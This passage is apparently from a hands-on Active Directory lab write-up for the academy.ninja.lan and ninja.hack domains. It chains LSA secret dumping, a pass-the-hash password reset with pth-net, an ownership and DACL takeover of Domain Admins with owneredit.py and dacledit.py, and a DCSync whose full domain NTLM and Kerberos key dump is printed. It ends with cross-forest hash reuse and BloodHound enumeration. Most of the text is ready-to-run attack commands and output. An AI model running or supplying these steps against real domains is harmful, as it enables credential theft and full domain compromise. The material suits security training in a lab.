SMB 192.168.58.23 445 SHARE _SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_fd24bfe9f1d8297458dfcdce87bc952248f048008a059fcd087c88c8f864fbe7:01000000220100001000000012011a015cf4709932a017bbcace1d6ce42ee7108943b27a4781a63215e35937858a62b45ff1caec1c5be989a0e6db33ba707d83c68549c1686caee22832f570ae94f5cf13ccb82318d86d7a0baa8949c4763ea948b171fa856048d362faba375689b79fd4e2a9aec807529ab458321ca3e8e19534a04d3b3391ca867819b2970571b5724166fb6331466b714ba558292ed95a97cc267ba94ffd69e07518ffe977d01c9648a3868761653eb29ac702dec165a38e2535659cd80bb90c0779213973c28afce56c46bb2f6849ed91b03cc63589b1ab6e0e2105ff692a136e7f467765d8ab4e31ff5c731c9096216950820b2e1c736b3159e7378e1e1b6ea94c487ff8dc3ffa0000cd3895b96e170000cddac4066e170000
SMB 192.168.58.23 445 SHARE GMSA ID: fd24bfe9f1d8297458dfcdce87bc952248f048008a059fcd087c88c8f864fbe7 NTLM: f5e1d46b0a91aeae00514bd429a690a0
SMB 192.168.58.23 445 SHARE [+] Dumped 10 LSA secrets to /home/stark/.nxc/logs/SHARE_192.168.58.23_2024-10-24_231129.secrets and /home/stark/.nxc/logs/SHARE_192.168.58.23_2024-10-24_231129.cached
We can see above that, by dumping the LSA inside SHARE server, we were able todump the gMSANFS$ NTLM hash. Now I used Netexec as well to check if the gmsaNFS$ NTLM works and we can see that it works. netexec smb share.academy.ninja.lan -u 'gmsaNFS$' -H 'f5e1d46b0a91aeae00514bd429a690a0' -d 'academy.ninja.lan’

ForceChangePassword
This abuse can be carried out when controlling an object that has a GenericAll, AllExtendedRights or User-Force-Change-Password over the target user.
Back to our enumeration with Bloodhound and Bloodhound-QuickWins, the GMSANFS$ account that ForceChangePassword to backup@academy.ninja.lan user account.
[+] ACL : GMSANFS$@ACADEMY.NINJA.LAN--> ForceChangePassword --> BACKUP@ACADEMY.NINJA.LAN
Because we are not using the cleartext password but using the NTLM hash instead, let’s use pth-net to be able to accomplish this task. pth-net rpc password 'backup' 'Stark123!Backup' -U 'academy.ninja.lan\GMSANFS$'%'ffffffffffffffffffffffffffffffff':'f5e1d46b0a91aeae00514bd429a690a0' -S 'academy.ninja.lan'

Now Let’s check if backup user’s password was successfully changed. netexec smb dc-ac.academy.ninja.lan -u 'backup' -p 'Stark123!Backup' -d 'academy.ninja.lan’

Amazing, we were able to change backup’s credential.
Privilege Escalation to ACADEMY Domain Admin - WriteOwner
Based on our previous enumerations (again Bloodhound & Bloodhound-QuickWins) we can see that our just Pwn3d BACKUP account have WriteOwner rights over Domain Admins group, we can change the ownership of the group to ourselves. This is particularly impactful when the group in question is Domain Admins, as changing ownership allows for broader control over group attributes and membership. The process involves identifying the correct object via Get-ObjectAcl and then using Set-DomainObjectOwner to modify the owner, either by SID or name.

[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ACCOUNT OPERATORS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ADMINISTRATOR@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ADMINISTRATORS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ADMINSDHOLDER@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ALICE@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> BACKUP OPERATORS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> DAVID@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> DOMAIN ADMINS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> DOMAIN CONTROLLERS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ENTERPRISE ADMINS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ENTERPRISE KEY ADMINS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> KATHERINE@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> KEY ADMINS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> KRBTGT@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> PRINT OPERATORS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> READ-ONLY DOMAIN CONTROLLERS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> REPLICATOR@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> SCHEMA ADMINS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> SENSEI@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> SERVER OPERATORS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> UMA@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> VAGRANT@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> YARA@ACADEMY.NINJA.LANWe will use owneredit.py to enumerate Domain Admins group owner and also to change overpass ownership owneredit.py -action 'read' -target 'Domain Admins' 'academy.ninja.lan/backup:Stark123!Backup'

As we can see above, Domain Admins is the owner of the Domain Admins group. The trick we will be using here, is to change the ownership of the Domain Admins group to ourselves. Since we already have control over user backup, I’ll be assigning user backup as Domain Admins owner. owneredit.py -action 'write' -new-owner 'backup' -target 'Domain Admins' 'academy.ninja.lan/backup:Stark123!Backup'

Above we can see that we have successfully changed the ownership of the group. Now if we check it again, we can see that backup is now the Domain Admins group owner. owneredit.py -action 'read' -target 'Domain Admins' 'academy.ninja.lan/backup:Stark123!Backup'

Becoming the group owner allows you to change the group ACL(Access Control List) and assign GenericAll to the group. dacledit.py -action 'write' -rights 'FullControl' -principal 'backup' -target 'Domain Admins' 'academy.ninja.lan'/'backup':'Stark123!Backup'

We successfully modified the DACL over Domain Admins group, assigning GenericAll to our controlled user Backup. With GenericAll rights over Domain Admins group, we can simply add ourselves as member of this group.
All we need here is the DistinguishedNames for Backup and Domain Admins group. sudo ldeep ldap -u 'backup' -p 'Stark123!Backup' -d 'academy.ninja.lan' -s 'ldap://dc-ac.academy.ninja.lan' search '(sAMAccountName=Backup)' distinguishedName
[{
"distinguishedName": "CN=backup,CN=Users,DC=academy,DC=ninja,DC=lan",
"dn": "CN=backup,CN=Users,DC=academy,DC=ninja,DC=lan"
}]
sudo ldeep ldap -u 'Domain Admins' -p 'Stark123!Backup' -d 'academy.ninja.lan' -s 'ldap://dc-ac.academy.ninja.lan' search '(sAMAccountName=Domain Admins)' distinguishedName[{
"distinguishedName": "CN=Domain Admins,CN=Users,DC=academy,DC=ninja,DC=lan",
"dn": "CN=Domain Admins,CN=Users,DC=academy,DC=ninja,DC=lan"
}]Now that we have both distinguishedNames we can simply add user backup into Domain Admins group. sudo ldeep ldap -u 'backup' -p 'Stark123!Backup' -d 'academy.ninja.lan' -s 'ldap://dc-ac.academy.ninja.lan' add_to_group "CN=backup,CN=Users,DC=academy,DC=ninja,DC=lan" "CN=Domain Admins,CN=Users,DC=academy,DC=ninja,DC=lan"

We successfully added user backup to Domain Admins Group.
Dumping All Domain Credentials.
Now that we were able to add ourselves into Domain Admins Group, we can can simply do a DCSync attack using secretsdump using our Backup Creds.
secretsdump.py 'backup:Stark123!Backup@dc-ac.academy.ninja.lan'Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Target system bootKey: 0xe20703d791c1d1b958ae012a9085a3f3
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8fd12ffe951b45af5bea2bd921accba4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
ACADEMY\DC-AC$:aes256-cts-hmac-sha1-96:f1e6519e4af0506f05a9581b97e690e38a18bc49c1e14efc6784e5c670f092be
ACADEMY\DC-AC$:aes128-cts-hmac-sha1-96:5e4aedc785908eb6ba1b29db30177f7a
ACADEMY\DC-AC$:des-cbc-md5:45bccd5b37d51557
ACADEMY\DC-AC$:plain_password_hex:d679b3475ff3e007ec42f19f40fce535b4b3153bdcee99e35f633492912792d158d25a7eb9451274c831ba94815198f57bbe6ca0fe29d5f750774aeec660372e8a2df88647352246cc42880a0a5f57e2ee53be87289c6e1dbb22066fe2dfdbd46ec49901e4c04a6cfdf728070fa2891fb0fc4a3f0af44ba832585f0cb7999f5fcad0fc6427911ceaebf008cb118f8e003f973be7d4e658502de7addeb58fdaf27f66643ca4d12e3e014884131548ba879d6de2af998fd2c86aed110fd976156648e6f869dbaf97038e5f3903afa874b8aed7f490c3ae4f9c5e2c13bc7bd5ba36d97058ecb6e700c199ae38a7e7049716
ACADEMY\DC-AC$:aad3b435b51404eeaad3b435b51404ee:68ce5cf297c31c5aa8aac7ecd74d43ec:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x3fcfdf93aca74b5c84ded49ab3ae63e46d4a5130
dpapi_userkey:0x93ff7e7fc200e3b142753ad360cabfd33ba5570b
[*] NL$KM
0000 64 08 D7 D8 E2 AF EA 8D 0F 5E 5B 10 1F 23 11 78 d........^[..#.x
0010 ED CE AE 62 D3 21 B9 40 A8 90 6C 04 48 D8 43 40 ...b.!.@..l.H.C@
0020 0B C9 38 BA 1C CA CF F0 B5 11 7C 8C E6 5D 2C 99 ..8.......|..],.
0030 46 0E 1B 18 B3 E1 DF F7 83 1C 3E CE CD 1E 60 9B F.........>...`.
NL$KM:6408d7d8e2afea8d0f5e5b101f231178edceae62d321b940a8906c0448d843400bc938ba1ccacff0b5117c8ce65d2c99460e1b18b3e1dff7831c3ececd1e609b
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8fd12ffe951b45af5bea2bd921accba4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a5d52a1137a5f6e4c02c2bca1fcc0221:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
alice:1115:aad3b435b51404eeaad3b435b51404ee:fcc5006e4079986d1e462efaa05e14fe:::
david:1116:aad3b435b51404eeaad3b435b51404ee:feab026d1bc9f67507d11b8bd7aecea0:::
noah:1117:aad3b435b51404eeaad3b435b51404ee:73a44b2e39197e13cc0e4750233ee88b:::
samuel:1118:aad3b435b51404eeaad3b435b51404ee:4c2e84002e88b57dbb8c2a12aad95ba3:::
willa:1119:aad3b435b51404eeaad3b435b51404ee:f138cd6dbab886e3e312bc6340bde980:::
yara:1120:aad3b435b51404eeaad3b435b51404ee:5189050f0cb65ba02df10871c597deed:::
zane:1121:aad3b435b51404eeaad3b435b51404ee:aee9c1d2dd5ca6b530c53b28f27b030b:::
ethan:1122:aad3b435b51404eeaad3b435b51404ee:183d4d549fb4190e628931cd59189e26:::
scott:1123:aad3b435b51404eeaad3b435b51404ee:7d043d1bae2b4e7c8b6f98b2b4f13824:::
katherine:1124:aad3b435b51404eeaad3b435b51404ee:5fe8eb92ce5056ba1c833fd76c5e24e5:::
victor:1125:aad3b435b51404eeaad3b435b51404ee:ddf7307b1ca463f430259d6555b296ed:::
lee:1126:aad3b435b51404eeaad3b435b51404ee:67541895141d7e0dfea9773ba9cd526b:::
taylor:1127:aad3b435b51404eeaad3b435b51404ee:43b707f41bfddb75ae40de146d693aee:::
uma:1128:aad3b435b51404eeaad3b435b51404ee:ae0ab45f6acd66d5d5f28fde1531ee2d:::
sophia:1129:aad3b435b51404eeaad3b435b51404ee:bd7d0ebfa7a61e315a637e239c392d08:::
charlie:1130:aad3b435b51404eeaad3b435b51404ee:a95e46860ff94bd66a64c2abc7967eff:::
isabella:1131:aad3b435b51404eeaad3b435b51404ee:77c74e0a2fc203ec6c741e465294db32:::
frank:1132:aad3b435b51404eeaad3b435b51404ee:d4fad93561dee253398d5891e991a6fb:::
olivia:1133:aad3b435b51404eeaad3b435b51404ee:91d85135bb2c4e12c46efbb77612c487:::
backup:1134:aad3b435b51404eeaad3b435b51404ee:9d871bf9e1e8637c783a06606bafe07f:::
sql_svc:1135:aad3b435b51404eeaad3b435b51404ee:980cbf89c238a0b7d814c086c79a7c4d:::
DC-AC$:1001:aad3b435b51404eeaad3b435b51404ee:68ce5cf297c31c5aa8aac7ecd74d43ec:::
SQL$:1104:aad3b435b51404eeaad3b435b51404ee:66f097fc97f0fbad31615ca975654d8c:::
WEB$:1105:aad3b435b51404eeaad3b435b51404ee:123c8bd5818ca47c9efae66419a796ea:::
SHARE$:1106:aad3b435b51404eeaad3b435b51404ee:01667d1f54d4ac544d1d7d02055f1815:::
gmsaNFS$:1136:aad3b435b51404eeaad3b435b51404ee:f5e1d46b0a91aeae00514bd429a690a0:::
starkcomputer$:1137:aad3b435b51404eeaad3b435b51404ee:b0944203d940ebd9c5c3f32977934581:::
NINJA$:1107:aad3b435b51404eeaad3b435b51404ee:1879d23fe116fdd36364f2144508f34d:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:c761740d79cfd457234d4184931282f84e47f53f1111080640b3c71609639019
Administrator:aes128-cts-hmac-sha1-96:b4af67d7e84a032d45b41ab2ec506cd8
Administrator:des-cbc-md5:10e591077cdfa183
krbtgt:aes256-cts-hmac-sha1-96:30ea886ccdc7f8824cda2c2d3ea598d7ad9fd860595b4e1e0de44bc5e7cc2e55
krbtgt:aes128-cts-hmac-sha1-96:4a5baa80ce22690d70a1a10fc5915eb9
krbtgt:des-cbc-md5:feba70891fbf861f
vagrant:aes256-cts-hmac-sha1-96:aa97635c942315178db04791ffa240411c36963b5a5e775e785c6bd21dd11c24
vagrant:aes128-cts-hmac-sha1-96:0d7c6160ffb016857b9af96c44110ab1
vagrant:des-cbc-md5:16dc9e8ad3dfc47f
alice:aes256-cts-hmac-sha1-96:0243e09e78c5117a62a869997143fba060fe39add6254e57598a0024c7d4869a
alice:aes128-cts-hmac-sha1-96:0ab4ec8a6093b60aa5d0786928cdeb56
alice:des-cbc-md5:625837132ab38cb9
david:aes256-cts-hmac-sha1-96:3e7bd75675c39d7e2cbc74228f0d14c541875cc1a6be0148909de50eda42d2dc
david:aes128-cts-hmac-sha1-96:29a29c1c85ec4ef4d48c3a6a3197d4a3
david:des-cbc-md5:efa18a2ff71cfe32
noah:aes256-cts-hmac-sha1-96:a8b7be06917eb34bcceb6f04adb35c00874c627d330eaab87cc49ce12dae6186
noah:aes128-cts-hmac-sha1-96:9d3dbd0952dd32263c6ab6bd06112d82
noah:des-cbc-md5:3e4531d6ef8aa202
samuel:aes256-cts-hmac-sha1-96:83995ab536dbf1e8c12b868af127772e0bf30e3b5fe2772437cbc50dc45ac940
samuel:aes128-cts-hmac-sha1-96:31be5a36a027d87d75de6c364589058c
samuel:des-cbc-md5:08436d68fdb34a98
willa:aes256-cts-hmac-sha1-96:715db9207fda112eddc6ad1e0e66d630ba43a2082480785984de5546d47b98ea
willa:aes128-cts-hmac-sha1-96:4f2baef6cd6d52ab4b5bcca7e41ae4a7
willa:des-cbc-md5:ec02ae0e4a8a643b
yara:aes256-cts-hmac-sha1-96:1ac6c5702583a42d5f4354ad5610c6bf33169e835638985156092cb75e86d583
yara:aes128-cts-hmac-sha1-96:72478890c0e613d95cda7d9f66d55834
yara:des-cbc-md5:cb86a10e23bf4fe0
zane:aes256-cts-hmac-sha1-96:d385a08e193b9516061b3580703268d133ae1937e0dbd85b4e31069c1ee9fc7e
zane:aes128-cts-hmac-sha1-96:b5469df67d53853b5b228c744ce3acab
zane:des-cbc-md5:0b158aa246c89458
ethan:aes256-cts-hmac-sha1-96:4eada880280b6f76b08569b4ae0bb95b065fdde57c16225448842f062f3deef6
ethan:aes128-cts-hmac-sha1-96:3684788169513a3afdc462688e95ca9a
ethan:des-cbc-md5:a27508f4dff48f1c
scott:aes256-cts-hmac-sha1-96:bbd9fe774a15033e9ab8f017fba070993106fb88dfc51c504155023a28fa1d34
scott:aes128-cts-hmac-sha1-96:6e7c0b47799dfb86888a44ed251c3b1a
scott:des-cbc-md5:d31ad3492fc7e326
katherine:aes256-cts-hmac-sha1-96:02cab07d7a25d72723cdc5d6bd88ec591c56e9ea73e4371f1c92f193da8dcbe5
katherine:aes128-cts-hmac-sha1-96:c554b986080bbac6535053410a02dd30
katherine:des-cbc-md5:8034b56e6b988a64
victor:aes256-cts-hmac-sha1-96:82e44936bb6e2a0c0f4897fe57d740ba5b1b8b31aefcfda4a56ef57dcfa108fd
victor:aes128-cts-hmac-sha1-96:181255e21a5e9cce4eea73352094841c
victor:des-cbc-md5:452f70a25b765e45
lee:aes256-cts-hmac-sha1-96:515855304bd424d7a8a1e2b15c6b34417972cca02456ea579baaa2e2374bb140
lee:aes128-cts-hmac-sha1-96:a971383176b0da713943c651a4f08b23
lee:des-cbc-md5:3dfee0c843bae029
taylor:aes256-cts-hmac-sha1-96:4db7a14932f8365d1fc7d14af15a866e55b8959b8c8af90dbc5ff5c57a2e6d8e
taylor:aes128-cts-hmac-sha1-96:cadd3d4d866e7f0fd712fcf0427004f1
taylor:des-cbc-md5:916b7a6e704a7ab9
uma:aes256-cts-hmac-sha1-96:03dd87c7b9427b65f5e152750a95ac6b0f39dd70d3b8192644d0e35e427cb4a7
uma:aes128-cts-hmac-sha1-96:0e6978a9200a292d634117270205e87e
uma:des-cbc-md5:297fe5577954d39d
sophia:aes256-cts-hmac-sha1-96:d38cf55d061594e5db0431d8d993669f64921b52d3193440b6f69f87e70c3b13
sophia:aes128-cts-hmac-sha1-96:fbb7c8673d7f2c6d5d9fe6ae1cba45bf
sophia:des-cbc-md5:46aef86efb165df2
charlie:aes256-cts-hmac-sha1-96:2f41c6d2c88b6dc40b26f922f35a4655eacb930668522fcea68b58cbcf6d3cc9
charlie:aes128-cts-hmac-sha1-96:f5eb33760167e8ec179d7614cc958ab4
charlie:des-cbc-md5:0b9d62982ab6342a
isabella:aes256-cts-hmac-sha1-96:d17f55e00976ad8b9efe4f9c847c1a323ae4cbbb5453865cd10c6aac73eddb17
isabella:aes128-cts-hmac-sha1-96:12d700a6eebc213175312258d7ce9505
isabella:des-cbc-md5:f45e7558a4e92323
frank:aes256-cts-hmac-sha1-96:a0d676dd3e4d7673ec255caf010e1e350f1b09d8871b88eb01c4c8ba4217beac
frank:aes128-cts-hmac-sha1-96:c17f862b3977b2e1ebfd537e4c1cf917
frank:des-cbc-md5:670eab6b580d436d
olivia:aes256-cts-hmac-sha1-96:7e03ad2dcef810af0e93f29524d7c2bcccd62effcf895fc6900d72bda40255da
olivia:aes128-cts-hmac-sha1-96:48e407acf677bc27ce13cd13c494b5f3
olivia:des-cbc-md5:a713f223e55b1a5d
backup:aes256-cts-hmac-sha1-96:8df376616f7ce2367b42821ee6681c0c43639a4f53b4dbd9d306ed14aa5aa582
backup:aes128-cts-hmac-sha1-96:dcf7faf4075f638651ce250be85f33b0
backup:des-cbc-md5:98dfc804b5982f73
sql_svc:aes256-cts-hmac-sha1-96:f2647793b65eb134115594f40e0835a28701a7adf2400fe7956f075f0e235ec6
sql_svc:aes128-cts-hmac-sha1-96:e281916e15a168f179680e5625109960
sql_svc:des-cbc-md5:23079e196d76b3b0
DC-AC$:aes256-cts-hmac-sha1-96:f1e6519e4af0506f05a9581b97e690e38a18bc49c1e14efc6784e5c670f092be
DC-AC$:aes128-cts-hmac-sha1-96:5e4aedc785908eb6ba1b29db30177f7a
DC-AC$:des-cbc-md5:5e15a2eacd623ece
SQL$:aes256-cts-hmac-sha1-96:52910fc862652b7a15e0faf0bad2de655196ad608b301e7c9435e6929634746f
SQL$:aes128-cts-hmac-sha1-96:c3f0b1680db504986b63f0d1bf550d3a
SQL$:des-cbc-md5:dfea2992e5fbb667
WEB$:aes256-cts-hmac-sha1-96:240a73574296ea40ec16237310f413f96bf7cd9d541b37e3ee95808d5b5d7a51
WEB$:aes128-cts-hmac-sha1-96:9715feddccbe7cadd389775a1fba59cb
WEB$:des-cbc-md5:c454400d0b5dae01
SHARE$:aes256-cts-hmac-sha1-96:fa29186696ed06c1587f6e89e5d9e0239d107d90f4f2a83dd86b786c5e77b748
SHARE$:aes128-cts-hmac-sha1-96:4517abc3e657e0783e0812e5562d437c
SHARE$:des-cbc-md5:1fa88a51613b8354
gmsaNFS$:aes256-cts-hmac-sha1-96:2366c29ace58688e51a66fdd1834590a9b05fe8f104601622f8d74b9e4baff0f
gmsaNFS$:aes128-cts-hmac-sha1-96:45e3f71b99358d7099951164002e0cda
gmsaNFS$:des-cbc-md5:0192dff2b56e91df
starkcomputer$:aes256-cts-hmac-sha1-96:fd7b01bf85e1b51301054886a5a483832b75159b03e2591cb8857e45412d0f2f
starkcomputer$:aes128-cts-hmac-sha1-96:bdf79d6a41d68a78bbd3dc992d3486b2
starkcomputer$:des-cbc-md5:0eb6c8c810cde962
NINJA$:aes256-cts-hmac-sha1-96:868a64c5c1b072cfc7ed05d5ada405a97501245f79a8f61fb1e0a192fde862fe
NINJA$:aes128-cts-hmac-sha1-96:19bb2e8003ebc07506b238bc65b310bc
NINJA$:des-cbc-md5:e6a7381f91ce8320
[*] Cleaning up...
Domain Admin to Enterprise Admin - Forest Trust
Forest — a transitive trust between one forest root domain and another forest root domain. Forest trusts also enforce SID filtering. Forest exists between two forests: (i.e. between two root domains in their respective forest). It allows users in one forest to access resources in the other forest.
BloodHound can be used to get a better overview of the domain trust links.

Enumerating Trusts with ldeep. sudo ldeep ldap -u 'backup' -p 'Stark123!Backup' -d 'academy.ninja.lan' -s 'ldap://dc-ac.academy.ninja.lan' trusts

Trust Partner: ninja.hack — The partner domain in the trust relationship, which in this case is also ninja.hack TrustedDirection: Bidirectional TrustedAttributes: FOREST_TRANSITIVE (0x00000008) — Cross-forest trust between the root of two domain forests running at least domain functional level 2003 or above. TrustedType: Windows domain running Active Directory —This means the trust is between two Windows domains, both using Active Directory.
This output shows the trust relationship between ninja.hack and our current domain academy.ninja.lan. The trust is bidirectional and transitive, meaning resources in both domains can be accessed by users from either domain, and the trust applies across the entire forest (not just specific domains).
Because of that Bidirectional trust we can also enumerate the root domain we are connected to, in this case, we can enumerate ninja.hack domain trust as well.
ldeep ldap -u 'backup' -p 'Stark123!Backup' -d 'academy.ninja.lan' -s 'ldap://dc-vil.ninja.hack' trusts

NetExec can also be used to enumerate Domain Trusts. netexec ldap dc-ac.academy.ninja.lan -u 'backup' -p 'Stark123!Backup' -d 'academy.ninja.lan' -M enum_trusts
Password Reuse
Normally if we get access to Domain Admin on a specific domain, we can dump the NTDS and check if sames users we do have in DomainA can be in DomainB, in this case we can try to find the same users on the external forest as well.
This is basically simple, we can do a password spraying using users/pass from ForestA to ForestB and check if we can find any valid user that can access the external forest. Another way is also to do a kerbrute attack to find users present in the two domains and try password reuse.
If we remember during our enumeration in the beginning we saw 2 users with ninja.hack mail accounts, frank.umino@ninja.hack and olivia.davis@ninja.hack. When we did the DCSync attack, we were able to dump the NTDS.dit file and we get all the user accounts, including the users mentioned above. So I decided to use the same olivia.davis and frank.umino’s NTLM hashes dumped from the DCSync attack too see if we are able to login to dc-vil.ninja.hack the ninja.hack Domain Controller. netexec smb dc-vil.ninja.hack -u 'frank.umino' -H 'd4fad93561dee253398d5891e991a6fb'
netexec smb dc-vil.ninja.hack -u 'olivia.davis' -H '91d85135bb2c4e12c46efbb77612c487'Amazing, Voilá… It was possible to see that Olivia.Davis’s NTLM hash worked and we are able to authenticate to ninja.hack domain.
So I just decided to use bloodhound again to enumerate ninja.hack domain using olivia.davis user. Once again we will combine Bloodhound-Python + Bloodhound-QuickWin as we did before. bloodhound-python -c all -d 'ninja.hack' -u 'olivia.davis' --hashes ':91d85135bb2c4e12c46efbb77612c487' -dc 'dc-vil.ninja.hack' -gc 'dc-vil.ninja.hack’
./bhqc.py -u 'neo4j' -p '' --heavy
▬▬ι═══════ﺤ BloodHound QuickWin @ kaluche_ -═══════ι▬▬
###########################################################
[*] Enumerating all domains admins (rid:512|519|544) (recursive)
###########################################################
[+] Domain admins (group) : DOMAIN ADMINS@NINJA.HACK
[+] Domain admins (group) : ENTERPRISE ADMINS@NINJA.HACK
[+] Domain admins (group) : HOKAGE@NINJA.HACK
[+] Domain admins (enabled) : ADMINISTRATOR@NINJA.HACK [LASTLOG: < 1 year]
[+] Domain admins (enabled) : ALICE.JOHNSON@NINJA.HACK [LASTLOG: NEVER]
[+] Domain admins (enabled) : VAGRANT@NINJA.HACK [LASTLOG: < 1 year]
###########################################################
[*] Enumerating all SPN
###########################################################
[+] SPN (disabled) : KRBTGT@NINJA.HACK [AdminCount]
###########################################################
[*] Enumerating Unconstrained computer (DC)
###########################################################
[+] Unconstrained computer (enabled) : DC-VIL.NINJA.HACK [Windows Server 2019 Datacenter Evaluation]
###########################################################
[*] Can configure Resource-Based Constrained Delegation
###########################################################
[+] RBCD : configure from OLIVIA.DAVIS@NINJA.HACK --> WriteDacl --> RACHEL.PHILIPS@NINJA.HACK
[+] RBCD : configure from SANIN@NINJA.HACK --> GenericAll --> JONIN@NINJA.HACK
###########################################################
[*] relationships - testing which group can do what to others (all)
###########################################################
[+] ACL : HOKAGE@NINJA.HACK--> AdminTo --> DC-VIL.NINJA.HACK
[+] ACL : HOKAGE@NINJA.HACK--> GenericAll --> DOMAIN ADMINS@NINJA.HACK [AdminCount]
